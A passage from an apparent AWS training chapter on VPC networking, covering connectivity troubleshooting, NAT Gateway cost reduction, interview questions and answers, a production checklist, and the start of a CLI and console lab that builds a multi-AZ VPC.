# Check: Is NAT Gateway in a PUBLIC subnet with IGW route?
# Check: Security group allows outbound traffic?
# Check: NACL allows outbound traffic?
```

### Problem 2: Instance Can't Be Reached from Internet (Public Subnet)
```bash
# Check: Does instance have a public IP or Elastic IP?
# Check: Route table has 0.0.0.0/0 → igw?
# Check: Security group allows inbound on the required port?
# Check: NACL allows inbound?
# Check: Instance is in "running" state?
```

### Problem 3: Instances in Same VPC Can't Communicate
```bash
# Check: Security groups allow traffic between instances
# Check: NACLs allow traffic
# Check: Route table has "local" route for VPC CIDR
# Check: Instances are in subnets within the same VPC
```

### Problem 4: NAT Gateway Costs Are Too High
```bash
# Check data processing volume
# Top cause: EC2 instances downloading from S3 via NAT Gateway
# Fix: Add S3 Gateway VPC Endpoint (FREE, bypasses NAT)

aws ec2 create-vpc-endpoint \
    --vpc-id $VPC_ID \
    --service-name com.amazonaws.ap-south-1.s3 \
    --route-table-ids $PRIV_RT_A $PRIV_RT_B
```

---

## 20. Common Production Problems

| # | Problem | Root Cause | Prevention |
|---|---------|------------|------------|
| 1 | No internet from private subnet | Missing NAT GW or route | Verify route table + NAT GW |
| 2 | High NAT GW costs | S3/DynamoDB traffic via NAT | Use VPC Gateway Endpoints |
| 3 | Single-AZ failure | NAT GW in one AZ only | One NAT GW per AZ |
| 4 | IP address exhaustion | /24 subnet full | Plan larger subnets, monitor usage |
| 5 | Can't peer VPCs | CIDR overlap | Plan non-overlapping CIDRs upfront |
| 6 | SG allows too much | 0.0.0.0/0 on non-public ports | Reference SGs, not CIDRs |
| 7 | Flow Logs not enabled | Not configured | Enable on VPC creation |
| 8 | DNS resolution fails | DNS settings disabled | Enable DNS resolution + hostnames |

---

## 21. Real-World Scenario

### Scenario: NAT Gateway Cost Spike Investigation

**Event**: Monthly AWS bill shows NAT Gateway data processing charges jumped from $50 to $800.

**Investigation**:
1. CloudWatch → NAT Gateway → BytesOutToDestination → identify spike date
2. VPC Flow Logs → filter by NAT Gateway ENI → identify top destination IPs
3. Discovery: EC2 instances downloading large datasets from S3 via NAT Gateway
4. Root cause: no S3 VPC Gateway endpoint — all S3 traffic routed through NAT ($0.045/GB)

**Fix**:
1. Created S3 Gateway VPC endpoint (free) → routes S3 traffic directly, bypassing NAT
2. Created DynamoDB Gateway endpoint (also free)
3. Added interface endpoints for ECR (container image pulls were also going through NAT)
4. Result: NAT Gateway costs dropped from $800 to $60/month

**Lesson**: Always create S3 and DynamoDB Gateway endpoints (free). Monitor NAT Gateway BytesOutToDestination monthly. Most "high NAT costs" are caused by S3 traffic.

---

## 22. Interview Questions

### Basic Questions (10)

**Q1: What is a VPC?**
A: A Virtual Private Cloud is your logically isolated network in AWS. You define the IP range (CIDR), create subnets, configure routing, and control access with firewalls (security groups, NACLs).

**Q2: What is the difference between a public and private subnet?**
A: A public subnet has a route to an Internet Gateway (0.0.0.0/0 → IGW). A private subnet does NOT have a route to an IGW. Private subnets use a NAT Gateway for outbound internet access.

**Q3: What is an Internet Gateway?**
A: An IGW is a horizontally scaled, HA gateway that connects a VPC to the internet. It's free, one per VPC, and enables instances with public IPs to communicate with the internet.

**Q4: What is a NAT Gateway?**
A: A NAT Gateway enables instances in private subnets to access the internet (outbound) without being reachable from the internet (inbound). It's placed in a public subnet and translates private IPs to its Elastic IP.

**Q5: What is the difference between a Security Group and a NACL?**
A: Security Groups are stateful (return traffic auto-allowed), operate at the instance level, and have only ALLOW rules. NACLs are stateless (must explicitly allow return traffic), operate at the subnet level, and have both ALLOW and DENY rules evaluated in order.

**Q6: What is a route table?**
A: A route table contains rules (routes) that determine where network traffic is directed. Each subnet is associated with one route table. Routes specify destination CIDR and target (IGW, NAT GW, VPC peering, etc.).

**Q7: What is a VPC endpoint?**
A: A VPC endpoint enables private connectivity to AWS services without going through the internet. Gateway endpoints (S3, DynamoDB) are free. Interface endpoints (most other services) use PrivateLink and have hourly + data charges.

**Q8: What are VPC Flow Logs?**
A: Flow Logs capture IP traffic information (source, destination, port, protocol, action) for network interfaces in your VPC. Used for security monitoring, troubleshooting connectivity, and compliance.

**Q9: What is CIDR notation?**
A: CIDR defines IP address ranges. /16 = 65,536 IPs, /24 = 256 IPs, /32 = 1 IP. The number after / indicates how many bits are fixed. Smaller number = more IPs. Example: 10.0.0.0/16 covers 10.0.0.0 to 10.0.255.255.

**Q10: How many AZs should a production VPC span?**
A: Minimum 2 AZs for high availability. Each AZ has its own public, private, and data subnets. If one AZ fails, the other continues serving traffic.

### Intermediate Questions (10)

**Q11: Why use a NAT Gateway per AZ instead of one for the entire VPC?**
A: If a single NAT Gateway's AZ fails, all private subnet traffic across all AZs is disrupted. One NAT GW per AZ ensures that each AZ has independent outbound internet access — AZ isolation.

**Q12: What is VPC peering and what are its limitations?**
A: VPC peering connects two VPCs for direct communication. Limitations: non-transitive (A↔B, B↔C doesn't mean A↔C), CIDRs can't overlap, route tables in BOTH VPCs must be updated. For many VPCs, use Transit Gateway instead.

**Q13: How do VPC Gateway endpoints reduce costs?**
A: S3 and DynamoDB traffic from private subnets normally goes through NAT Gateway ($0.045/GB). A Gateway endpoint routes this traffic directly to S3/DynamoDB over AWS's private network — free of charge. Can save thousands per month.

**Q14: What is Transit Gateway?**
A: A central hub that connects multiple VPCs, VPN connections, and Direct Connect gateways. Unlike peering (point-to-point), Transit Gateway enables transitive routing. Supports thousands of VPCs. Used in enterprise multi-account architectures.

**Q15: How does DNS work in a VPC?**
A: VPC has a built-in DNS server at [VPC CIDR base + 2]. Enable DNS Resolution (resolves public DNS) and DNS Hostnames (assigns DNS names to instances). Route 53 Resolver enables hybrid DNS (VPC ↔ on-premises).

**Q16: Explain the "Security Group referencing" pattern.**
A: Instead of allowing traffic from IP 10.0.3.15, you allow traffic from Security Group "web-sg". If the web server's IP changes or new servers are added to web-sg, the rule still works. This is the recommended practice for production.

**Q17: What is an Elastic Network Interface (ENI)?**
A: A virtual network card attached to an EC2 instance. Each instance has at least one ENI (primary). You can attach additional ENIs for multi-homing. ENIs have: private IP, optional public IP, security groups, and MAC address.

**Q18: How do you connect a VPC to an on-premises network?**
A: Site-to-Site VPN (encrypted tunnel over internet, ~1-2 Gbps) or AWS Direct Connect (dedicated physical connection, 1-100 Gbps). For hybrid DNS, use Route 53 Resolver endpoints.

**Q19: What happens to the public IP when you stop an EC2 instance?**
A: The auto-assigned public IP is released. When you restart, a new public IP is assigned. To keep the same IP, use an Elastic IP (static, persists across stop/start).

**Q20: How many security groups can you attach to an instance?**
A: Up to 5 security groups per ENI (network interface). All rules from all attached SGs are evaluated together. The instance is allowed if ANY of the attached SGs has a matching ALLOW rule.

### Advanced Questions (10)

**Q21: Design a CIDR strategy for a 50-account organization using AWS Organizations.**
A: Use a structured allocation: 10.0.0.0/8 divided into /16 blocks per account. Example: Account 1 = 10.0.0.0/16, Account 2 = 10.1.0.0/16, etc. This gives 256 accounts with 65,536 IPs each. Rules: no overlapping CIDRs (required for peering/Transit Gateway), document allocation in a central IPAM registry, use AWS VPC IPAM for automated management. Reserve ranges for future accounts. Use 100.64.0.0/10 (shared address space) for secondary CIDRs if needed.

**Q22: How does Transit Gateway work and when would you use it over VPC peering?**
A: Transit Gateway (TGW) is a regional hub that connects VPCs, VPNs, and Direct Connect. Unlike VPC peering (point-to-point, non-transitive), TGW supports transitive routing — VPC-A can reach VPC-C through TGW without direct peering. Use TGW when: 10+ VPCs need connectivity, you need centralized routing control, or connecting VPNs to multiple VPCs. TGW supports route tables for segmentation (e.g., production VPCs can't reach dev VPCs). Cost: $0.05/hour per attachment + $0.02/GB data.

**Q23: Design VPN failover with Direct Connect for hybrid connectivity.**
A: Architecture: Primary path = Direct Connect (DX) for consistent, low-latency connectivity. Backup path = Site-to-Site VPN over internet. Configuration: 1) Create Virtual Private Gateway (VGW) attached to VPC. 2) DX connection via DX Gateway → VGW. 3) VPN connection → same VGW. 4) BGP routing: DX advertises routes with higher preference (shorter AS path). 5) If DX fails, BGP automatically shifts traffic to VPN tunnel. 6) Recovery: when DX is restored, BGP shifts back. For mission-critical: use 2 DX connections (different locations) + VPN as tertiary backup.

**Q24: Explain IPv6 dual-stack VPC configuration.**
A: Dual-stack VPC supports both IPv4 and IPv6 simultaneously. Configuration: 1) Associate an Amazon-provided /56 IPv6 CIDR to VPC. 2) Assign /64 IPv6 CIDR to each subnet. 3) Update route tables — add ::/0 route to IGW (IPv6 is always public, no NAT needed). 4) Security groups: add IPv6 rules (separate from IPv4). 5) Instances get both IPv4 private + IPv6 global address. 6) For IPv6-only private subnets: use Egress-Only Internet Gateway (outbound only, like NAT for IPv6). Use case: IoT devices, modern applications, IPv4 exhaustion.

**Q25: How does VPC sharing with RAM work?**
A: AWS Resource Access Manager (RAM) allows sharing VPC subnets across accounts in the same Organization. The owner account creates the VPC and subnets, then shares subnets with participant accounts. Participants can launch resources (EC2, RDS, Lambda) in shared subnets. Benefits: centralized network management, reduced NAT Gateway costs (shared), simplified peering. Limitations: participants can't modify the VPC/subnet/route table — only the owner can. Security groups are per-account (participants manage their own SGs).

**Q26: Explain the PrivateLink service provider model.**
A: PrivateLink allows you to expose your service to other VPCs/accounts privately. Provider side: 1) Deploy service behind a Network Load Balancer (NLB). 2) Create VPC Endpoint Service pointing to NLB. 3) Approve consumer connection requests. Consumer side: 1) Create Interface VPC Endpoint to the service. 2) Gets a private DNS name and ENI in their VPC. Traffic stays on AWS private network — never touches the internet. Use case: SaaS providers offering private connectivity, internal shared services across accounts.

**Q27: How do you analyze VPC Flow Logs for a security investigation?**
A: Steps: 1) Flow Logs → S3 → query with Athena. 2) Investigate rejected traffic: `SELECT srcaddr, dstport, COUNT(*) FROM flow_logs WHERE action='REJECT' GROUP BY srcaddr, dstport ORDER BY COUNT(*) DESC` — identifies port scanning. 3) Check for data exfiltration: `SELECT dstaddr, SUM(bytes) FROM flow_logs WHERE srcaddr LIKE '10.0.%' GROUP BY dstaddr ORDER BY SUM(bytes) DESC` — identifies large outbound transfers to unknown IPs. 4) Timeline analysis: filter by specific srcaddr/dstaddr and time range. 5) Correlate with CloudTrail for API-level context (who modified SGs?).

**Q28: Design a multi-region VPC architecture for a global application.**
A: Architecture per region: identical VPC layout using IaC (CloudFormation/Terraform). Inter-region connectivity: Transit Gateway peering (transitive) or VPC peering (direct, lower latency). DNS: Route 53 latency-based routing for user-facing traffic. Data replication: cross-region VPC peering for database replication traffic. Security: consistent SG rules across regions via IaC. Key decisions: same CIDR plan across regions (non-overlapping), centralized logging (VPC Flow Logs → central S3 bucket), consistent tagging.

**Q29: When should you use NACLs vs relying only on Security Groups?**
A: Security Groups (SGs) are sufficient for most cases — they're stateful, support SG referencing, and are easier to manage. Use NACLs in addition when: 1) You need explicit DENY rules (SGs only allow). 2) Blocking known malicious IP ranges at the subnet level. 3) Compliance requires network-level access control. 4) Defense-in-depth requirements. NACL gotchas: stateless (must allow return traffic explicitly — ephemeral ports 1024-65535), rules evaluated in order (lowest number first), one NACL per subnet. Production: use SGs as primary, NACLs only for broad blocking.

**Q30: How do VPC endpoint policies work and when should you use them?**
A: Endpoint policies are IAM resource policies attached to VPC endpoints. They control which AWS resources can be accessed through the endpoint. Example: S3 Gateway endpoint policy that restricts access to only your company's S3 buckets — prevents data exfiltration to external buckets. Syntax: standard IAM policy with Principal, Action, Resource. Default policy: full access (allow all). Best practice: restrict to specific buckets/resources for sensitive environments. Works on both Gateway and Interface endpoints.

### Scenario-Based Questions (10)

**Q31: Your EC2 instances in private subnets suddenly can't reach the internet. Walk through troubleshooting.**
A: 1) Check NAT Gateway status — is it in "available" state? If "failed," recreate it. 2) Check route table — does the private subnet's RT have 0.0.0.0/0 → NAT Gateway? 3) Check NAT Gateway's subnet — is it in a public subnet with IGW route? 4) Check NAT Gateway's Elastic IP — is it still associated? 5) Check Security Group on EC2 — does it allow outbound traffic? 6) Check NACL — does it allow outbound traffic AND return traffic (ephemeral ports 1024-65535 inbound)? 7) Check NAT Gateway CloudWatch — PacketsDropCount > 0 means capacity issue.

**Q32: After adding a VPC peering connection, instances in VPC-A still can't reach VPC-B. Why?**
A: Most common causes: 1) Route tables not updated — both VPCs must have routes pointing the peer's CIDR to the peering connection. 2) Security groups don't allow traffic from the peer VPC's CIDR. 3) NACLs blocking traffic. 4) DNS resolution not enabled on the peering connection (can't resolve private DNS names across peers). 5) Overlapping CIDRs — peering can't be created if CIDRs overlap. Fix: verify routes in both VPCs, update SGs to allow peer CIDR, enable DNS resolution on peering.

**Q33: Your VPN tunnel keeps flapping (going up and down). Diagnose and fix.**
A: Common causes: 1) Idle timeout — AWS VPN tunnels drop after 10 seconds of inactivity. Fix: configure DPD (Dead Peer Detection) or send keep-alive pings. 2) Incorrect Phase 1/Phase 2 parameters — IKE version, encryption algorithm, DH group mismatch. Fix: align parameters on both sides. 3) NAT-T issues — if customer gateway is behind NAT, enable NAT Traversal. 4) BGP issues — if using dynamic routing, check BGP timers and route advertisements. 5) Internet instability — check ISP connectivity. Best practice: use 2 VPN tunnels (active/passive) for redundancy.

**Q34: Design network security for a PCI-DSS compliant application on AWS.**
A: 1) Dedicated VPC for cardholder data environment (CDE). 2) Three-tier subnet architecture: public (WAF/ALB), private (app), data (DB) — each in separate subnets. 3) NACLs: explicit deny lists + allow only required traffic. 4) SGs: strict port-level access, SG referencing only. 5) VPC Flow Logs: ALL traffic → S3 with 1-year retention. 6) No internet access for data tier — no NAT GW route for data subnets. 7) VPC endpoints for all AWS service access (no internet path). 8) Network segmentation: isolate CDE from non-CDE VPCs. 9) AWS Network Firewall or third-party IDS/IPS for traffic inspection.

**Q35: How do you optimize network performance with placement groups?**
A: Three types: 1) Cluster placement group — instances in same rack, same AZ. Lowest latency (~25 Gbps between instances). Use for HPC, tightly coupled workloads. 2) Spread placement group — instances on distinct hardware across AZs. Maximum fault isolation. Use for critical instances (max 7 per AZ). 3) Partition placement group — instances divided into logical partitions on separate racks. Use for distributed databases (Kafka, Cassandra). Network tuning: enable Enhanced Networking (ENA), use Elastic Fabric Adapter (EFA) for HPC, choose instances with higher network bandwidth.

**Q36: Traffic between two subnets in the same VPC is being blocked. Both SGs allow the traffic. What's wrong?**
A: If SGs allow the traffic, check NACLs. NACLs are stateless — you must explicitly allow return traffic. Common issue: NACL allows inbound on port 443, but doesn't allow outbound on ephemeral ports (1024-65535), so the response packets are dropped. Fix: ensure NACL allows outbound on ephemeral port range. Also check: are the subnets using the correct route table? The VPC "local" route should exist (it's added automatically and can't be removed). Verify no custom routes override the local route.

**Q37: How do you implement DNS forwarding for hybrid cloud (VPC ↔ on-premises)?**
A: Use Route 53 Resolver: 1) Inbound Endpoint — allows on-premises DNS to resolve AWS private hosted zone records. Deploy ENIs in your VPC, configure on-prem DNS to forward AWS domains to these IPs. 2) Outbound Endpoint — allows VPC instances to resolve on-prem domain records. Create forwarding rules (e.g., corp.example.com → on-prem DNS IPs). 3) Deploy endpoints in multiple AZs for HA. 4) Both require VPN or DX connectivity between VPC and on-prem. Cost: ~$0.125/hour per endpoint + $0.40 per million queries.

**Q38: NAT Gateway ErrorPortAllocation alarm fired. What's happening and how do you fix it?**
A: ErrorPortAllocation means the NAT Gateway has exhausted its available ports (64,000 ports per destination IP). Cause: many connections to the same destination IP (e.g., thousands of Lambdas connecting to one API endpoint). Fix: 1) Spread traffic across multiple destination IPs (use DNS with multiple A records). 2) Allocate additional Elastic IPs to the NAT Gateway (up to 8, giving 8 × 64,000 = 512,000 ports). 3) Reduce connection duration — close connections quickly, use HTTP keep-alive efficiently. 4) If traffic is to AWS services, use VPC endpoints to bypass NAT entirely.

**Q39: You need to inspect all traffic entering and leaving your VPC. How?**
A: Options: 1) AWS Network Firewall — managed stateful/stateless firewall service. Deploy in firewall subnet, route traffic through it via route table entries. Supports Suricata-compatible IPS rules. 2) Traffic Mirroring — copy network traffic to monitoring appliances for deep packet inspection. Works at ENI level. Use for IDS/IPS or forensic analysis. 3) Gateway Load Balancer (GWLB) — inline transparent inspection. Deploys third-party appliances (Palo Alto, Fortinet). Traffic is transparently routed through appliances. 4) VPC Flow Logs — metadata only (no payload), but useful for traffic analysis without full packet capture.

**Q40: Your application latency increased after migrating from single-AZ to multi-AZ. Why?**
A: Cross-AZ data transfer adds latency (~0.5-1ms per AZ hop). Common causes: 1) Application server in AZ-A calling database in AZ-B for every request. Fix: use AZ-aware connection routing or ensure app and DB are in the same AZ. 2) Microservices calling each other cross-AZ. Fix: implement AZ-aware service discovery. 3) Data transfer costs also increase ($0.01/GB cross-AZ). Solutions: AZ affinity in load balancer (cross-zone load balancing disabled), AZ-aware database connection strings, cache frequently accessed data locally. Trade-off: AZ affinity reduces latency but may reduce fault tolerance.

---

## 23. Scenario-Based Interview Questions

*(Covered in section 22 above — Q31 through Q40)*

---

## 24. Common Mistakes

1. **Using default VPC for production** — create a custom VPC
2. **All subnets public** — use private subnets for compute/data
3. **One NAT Gateway for all AZs** — single point of failure
4. **Overlapping CIDRs** — can't peer VPCs with overlapping ranges
5. **SG with 0.0.0.0/0 on SSH (22)** — restrict to VPN/bastion
6. **No VPC Flow Logs** — can't troubleshoot or audit without them
7. **No S3 Gateway endpoint** — paying NAT costs for S3 traffic
8. **Tiny subnets (/28)** — IP addresses run out quickly
9. **Not planning for growth** — use /16 VPC, /24 subnets minimum
10. **Ignoring NAT Gateway costs** — can be the largest networking expense

---

## 25. Production Checklist

- [ ] Custom VPC created (not using default VPC)
- [ ] CIDR planned for growth (/16 VPC recommended)
- [ ] Minimum 2 AZs with public, private, and data subnets
- [ ] Internet Gateway attached
- [ ] NAT Gateway per AZ (HA)
- [ ] Route tables configured correctly (public → IGW, private → NAT)
- [ ] S3 Gateway endpoint created (free, saves NAT costs)
- [ ] DynamoDB Gateway endpoint created (free)
- [ ] Security groups use SG references (not CIDRs)
- [ ] No SSH (22) open to 0.0.0.0/0
- [ ] VPC Flow Logs enabled (ALL traffic)
- [ ] DNS Resolution and DNS Hostnames enabled
- [ ] CIDR blocks documented (non-overlapping with other VPCs)
- [ ] VPC endpoints for frequently accessed AWS services
- [ ] Tags: Name, Environment on all resources

---

## 26. Chapter Summary

VPC is the networking foundation of everything on AWS. Key takeaways:

1. **Custom VPC, not default** — design your network intentionally
2. **Public subnets for load balancers** — private subnets for compute and data
3. **One NAT Gateway per AZ** — HA for outbound internet access
4. **S3 Gateway endpoint is free** — saves significant NAT Gateway costs
5. **Security Groups reference other SGs** — not IP addresses
6. **Route tables define "public" vs "private"** — presence of IGW route
7. **VPC Flow Logs for everything** — essential for troubleshooting and security
8. **Plan CIDRs carefully** — can't change VPC CIDR easily, plan for growth
9. **Transit Gateway for enterprise** — hub-and-spoke for many VPCs
10. **NAT Gateway is expensive** — optimize with VPC endpoints

Every AWS resource you deploy lives in (or connects to) a VPC. Master networking, and you've mastered the infrastructure layer of AWS.

---
---

# 🔬 Practical Lab 06 — Build a Production VPC

## Lab Overview

| Item | Detail |
|------|--------|
| **Difficulty** | Intermediate |
| **Duration** | 45 minutes |
| **Cost** | ~$1.50/day (NAT Gateway) |
| **Prerequisites** | Practical 01 completed |
| **Lab Environment** | Environment 2 — Network |
| **AWS Region** | ap-south-1 (Mumbai) |

## Business Scenario

> Your company is migrating its web application to AWS. The network architect has designed a multi-AZ VPC with public subnets for load balancers and private subnets for application servers and databases. You need to build this network foundation that all future practicals will use.

## Architecture



## What You Will Learn

1. Create a VPC with a custom CIDR block
2. Create public and private subnets across 2 AZs
3. Configure Internet Gateway, NAT Gateway, and Route Tables
4. Set up Security Groups and NACLs
5. Understand the difference between public and private subnets

---

### Step 1 — Create the VPC

#### AWS Console

1. Navigate to **VPC Console** → **Your VPCs** → **Create VPC**
2. Select **VPC only** (not VPC and more)
3. Configure:
   - **Name tag**: `prod-vpc`
   - **IPv4 CIDR**: `10.0.0.0/16` (65,536 IPs)
   - **IPv6**: No
   - **Tenancy**: Default
4. Click **Create VPC**

📸 **Screenshot 01** — VPC Created
> **What you should see**: VPC "prod-vpc" with CIDR 10.0.0.0/16, State: available
> **Verify**: VPC ID assigned, DNS hostnames and DNS resolution are editable

5. Select the VPC → **Actions** → **Edit VPC settings**
   - ✅ Enable **DNS hostnames**
   - ✅ Enable **DNS resolution**
   - Click **Save**

📸 **Screenshot 02** — DNS Settings Enabled
> **What you should see**: Both DNS hostnames and DNS resolution show "Enabled"
> **Verify**: Both toggles are green/enabled

#### AWS CLI

```bash
VPC_ID=$(aws ec2 create-vpc --cidr-block 10.0.0.0/16 \
    --tag-specifications 'ResourceType=vpc,Tags=[{Key=Name,Value=prod-vpc}]' \
    --query 'Vpc.VpcId' --output text)

aws ec2 modify-vpc-attribute --vpc-id $VPC_ID --enable-dns-hostnames '{"Value":true}'
aws ec2 modify-vpc-attribute --vpc-id $VPC_ID --enable-dns-support '{"Value":true}'
echo "VPC: $VPC_ID"
```

🎯 **Interview Insight**: "Why 10.0.0.0/16?"
> **Strong answer**: "/16 gives 65,536 IPs — enough room for growth without wasting space. We use private RFC 1918 ranges. Plan CIDRs carefully because you can't change the primary CIDR later. Avoid 172.31.0.0/16 (default VPC) and ensure no overlap with on-premises or peered VPCs."

---

### Step 2 — Create Subnets (2 Public + 2 Private)

#### AWS Console

1. **VPC Console** → **Subnets** → **Create subnet**
2. **VPC**: Select `prod-vpc`
3. Create 4 subnets one by one:

| Subnet Name | AZ | CIDR |
|-------------|-------|------|
| `prod-public-subnet-a` | ap-south-1a | `10.0.1.0/24` |
| `prod-public-subnet-b` | ap-south-1b | `10.0.2.0/24` |
| `prod-private-subnet-a` | ap-south-1a | `10.0.3.0/24` |
| `prod-private-subnet-b` | ap-south-1b | `10.0.4.0/24` |

📸 **Screenshot 03** — All 4 Subnets Created
> **What you should see**: 4 subnets in prod-vpc, 2 per AZ, non-overlapping CIDRs
> **Verify**: Each subnet shows correct AZ and CIDR

4. Select each **public** subnet → **Actions** → **Edit subnet settings** → ✅ **Enable auto-assign public IPv4 address** → Save

📸 **Screenshot 04** — Auto-assign Public IP Enabled
> **What you should see**: Public subnets show "Auto-assign public IPv4: Yes"

#### AWS CLI

```bash
PUB_A=$(aws ec2 create-subnet --vpc-id $VPC_ID --cidr-block 10.0.1.0/24 \
    --availability-zone ap-south-1a \
    --tag-specifications 'ResourceType=subnet,Tags=[{Key=Name,Value=prod-public-subnet-a}]' \
    --query 'Subnet.SubnetId' --output text)

PUB_B=$(aws ec2 create-subnet --vpc-id $VPC_ID --cidr-block 10.0.2.0/24 \
    --availability-zone ap-south-1b \
    --tag-specifications 'ResourceType=subnet,Tags=[{Key=Name,Value=prod-public-subnet-b}]' \
    --query 'Subnet.SubnetId' --output text)

PRIV_A=$(aws ec2 create-subnet --vpc-id $VPC_ID --cidr-block 10.0.3.0/24 \
    --availability-zone ap-south-1a \
    --tag-specifications 'ResourceType=subnet,Tags=[{Key=Name,Value=prod-private-subnet-a}]' \
    --query 'Subnet.SubnetId' --output text)

PRIV_B=$(aws ec2 create-subnet --vpc-id $VPC_ID --cidr-block 10.0.4.0/24 \
    --availability-zone ap-south-1b \
    --tag-specifications 'ResourceType=subnet,Tags=[{Key=Name,Value=prod-private-subnet-b}]' \
    --query 'Subnet.SubnetId' --output text)

aws ec2 modify-subnet-attribute --subnet-id $PUB_A --map-public-ip-on-launch
aws ec2 modify-subnet-attribute --subnet-id $PUB_B --map-public-ip-on-launch
```

---

### Step 3 — Create Internet Gateway

#### AWS Console

1. **VPC Console** → **Internet Gateways** → **Create internet gateway**
   - **Name**: `prod-igw`
   - Click **Create**
2. Select `prod-igw` → **Actions** → **Attach to VPC** → Select `prod-vpc` → **Attach**

📸 **Screenshot 05** — IGW Attached to VPC
> **What you should see**: Internet gateway "prod-igw" with State: Attached, VPC: prod-vpc
> **Verify**: State shows "Attached" (not "Detached")

#### AWS CLI

```bash
IGW_ID=$(aws ec2 create-internet-gateway \
    --tag-specifications 'ResourceType=internet-gateway,Tags=[{Key=Name,Value=prod-igw}]' \
    --query 'InternetGateway.InternetGatewayId' --output text)
aws ec2 attach-internet-gateway --internet-gateway-id $IGW_ID --vpc-id $VPC_ID
```

---

### Step 4 — Create Route Tables

#### AWS Console — Public Route Table

1. **VPC Console** → **Route Tables** → **Create route table**
   - **Name**: `prod-public-rt`
   - **VPC**: `prod-vpc`
2. Select `prod-public-rt` → **Routes** tab → **Edit routes** → **Add route**:
   - **Destination**: `0.0.0.0/0`
   - **Target**: Internet Gateway → `prod-igw`
   - Click **Save changes**
3. **Subnet associations** tab → **Edit subnet associations**:
   - Select `prod-public-subnet-a` and `prod-public-subnet-b`
   - Click **Save associations**

📸 **Screenshot 06** — Public Route Table with IGW Route
> **What you should see**: Route table with 2 routes: local (10.0.0.0/16) + 0.0.0.0/0 → igw
> **Verify**: Both public subnets associated

#### AWS Console — Private Route Table

1. **Create route table**: Name `prod-private-rt`, VPC `prod-vpc`
2. Associate `prod-private-subnet-a` and `prod-private-subnet-b`
3. (NAT Gateway route added in Step 5)

📸 **Screenshot 07** — Private Route Table (no IGW route)
> **What you should see**: Only the local route (10.0.0.0/16) — no 0.0.0.0/0 route yet
> **Verify**: Private subnets associated, no internet route

#### AWS CLI

```bash
PUB_RT=$(aws ec2 create-route-table --vpc-id $VPC_ID \
    --tag-specifications 'ResourceType=route-table,Tags=[{Key=Name,Value=prod-public-rt}]' \
    --query 'RouteTable.RouteTableId' --output text)

aws ec2 create-route --route-table-id $PUB_RT \
    --destination-cidr-block 0.0.0.0/0 --gateway-id $IGW_ID

aws ec2 associate-route-table --route-table-id $PUB_RT --subnet-id $PUB_A
aws ec2 associate-route-table --route-table-id $PUB_RT --subnet-id $PUB_B

PRIV_RT=$(aws ec2 create-route-table --vpc-id $VPC_ID \
    --tag-specifications 'ResourceType=route-table,Tags=[{Key=Name,Value=prod-private-rt}]' \
    --query 'RouteTable.RouteTableId' --output text)

aws ec2 associate-route-table --route-table-id $PRIV_RT --subnet-id $PRIV_A
aws ec2 associate-route-table --route-table-id $PRIV_RT --subnet-id $PRIV_B
```

🎯 **Interview Insight**: "What makes a subnet public vs private?"
> **Strong answer**: "A public subnet has a route table entry pointing 0.0.0.0/0 to an Internet Gateway. A private subnet's route table either has no 0.0.0.0/0 route or points 0.0.0.0/0 to a NAT Gateway. It's the route table that determines public/private — not the subnet name."

---

### Step 5 — Create NAT Gateway

#### AWS Console

1. **VPC Console** → **NAT Gateways** → **Create NAT gateway**
   - **Name**: `prod-nat-gw`
   - **Subnet**: `prod-public-subnet-a` (NAT goes in a PUBLIC subnet)
   - **Connectivity type**: Public
   - **Elastic IP**: Click **Allocate Elastic IP** → it auto-fills
2. Click **Create NAT gateway**
3. Wait for status: **Available** (2-3 minutes)

📸 **Screenshot 08** — NAT Gateway Available
> **What you should see**: NAT gateway "prod-nat-gw" with State: Available, Elastic IP assigned
> **Verify**: Subnet shows a PUBLIC subnet, connectivity type is Public

4. Go to **Route Tables** → Select `prod-private-rt` → **Edit routes** → **Add route**:
   - **Destination**: `0.0.0.0/0`
   - **Target**: NAT Gateway → `prod-nat-gw`
   - Click **Save**

📸 **Screenshot 09** — Private Route Table with NAT Route
> **What you should see**: Private RT now has 0.0.0.0/0 → nat-xxx
> **Verify**: Private instances can reach internet (outbound only) via NAT

#### AWS CLI

```bash
EIP_ALLOC=$(aws ec2 allocate-address --query 'AllocationId' --output text)

NAT_ID=$(aws ec2 create-nat-gateway --subnet-id $PUB_A \
    --allocation-id $EIP_ALLOC \
    --tag-specifications 'ResourceType=natgateway,Tags=[{Key=Name,Value=prod-nat-gw}]' \
    --query 'NatGateway.NatGatewayId' --output text)

aws ec2 wait nat-gateway-available --nat-gateway-ids $NAT_ID

aws ec2 create-route --route-table-id $PRIV_RT \
    --destination-cidr-block 0.0.0.0/0 --nat-gateway-id $NAT_ID
```

---

### Step 6 — Create Security Groups

```bash
# ALB Security Group
ALB_SG=$(aws ec2 create-security-group --group-name prod-alb-sg \
    --description "ALB - allow HTTP/HTTPS from internet" --vpc-id $VPC_ID \
    --query 'GroupId' --output text)
aws ec2 authorize-security-group-ingress --group-id $ALB_SG \
    --protocol tcp --port 80 --cidr 0.0.0.0/0
aws ec2 authorize-security-group-ingress --group-id $ALB_SG \
    --protocol tcp --port 443 --cidr 0.0.0.0/0

# EC2 Security Group (only from ALB)
EC2_SG=$(aws ec2 create-security-group --group-name prod-ec2-sg \
    --description "EC2 - allow traffic from ALB only" --vpc-id $VPC_ID \
    --query 'GroupId' --output text)
aws ec2 authorize-security-group-ingress --group-id $EC2_SG \
    --protocol tcp --port 80 --source-group $ALB_SG

# RDS Security Group (only from EC2)
RDS_SG=$(aws ec2 create-security-group --group-name prod-rds-sg \
    --description "RDS - allow PostgreSQL from EC2 only" --vpc-id $VPC_ID \
    --query 'GroupId' --output text)
aws ec2 authorize-security-group-ingress --group-id $RDS_SG \
    --protocol tcp --port 5432 --source-group $EC2_SG
```

📸 **Screenshot 10** — Security Groups Chain
> **What you should see**: 3 security groups: ALB (80,443 from internet) → EC2 (80 from ALB SG) → RDS (5432 from EC2 SG)
> **Verify**: SG references use security group IDs, not IP addresses

🎯 **Interview Insight**: "Why reference security groups instead of IP addresses?"
> **Strong answer**: "SG references are dynamic — they automatically include any instance in the referenced SG. IPs change when instances are replaced. SG-to-SG references are the AWS best practice for layered security (ALB→EC2→RDS chain)."

---

### Step 7 — View the VPC Resource Map

#### AWS Console

1. **VPC Console** → **Your VPCs** → Select `prod-vpc` → **Resource map** tab

📸 **Screenshot 11** — VPC Resource Map
> **What you should see**: Visual map showing VPC → Subnets → Route Tables → IGW/NAT
> **Verify**: Public subnets connect to IGW, private subnets connect to NAT

---

## Validation

```bash
# Verify VPC
aws ec2 describe-vpcs --vpc-ids $VPC_ID --query 'Vpcs[0].{CIDR:CidrBlock,State:State}'

